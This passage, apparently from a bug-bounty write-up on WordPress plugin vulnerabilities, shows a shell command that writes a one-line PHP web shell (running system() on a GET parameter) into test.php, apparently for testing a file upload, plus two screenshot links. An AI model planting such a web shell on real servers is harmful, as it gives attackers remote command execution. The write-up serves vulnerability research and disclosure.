 ```shell
┌[siunam♥Mercury]-(~/Downloads)-[2025.01.08|10:59:37(HKT)]
└> echo -n '<?php system($_GET["cmd"]); ?>' > test.php
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108110119.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108110142.png)
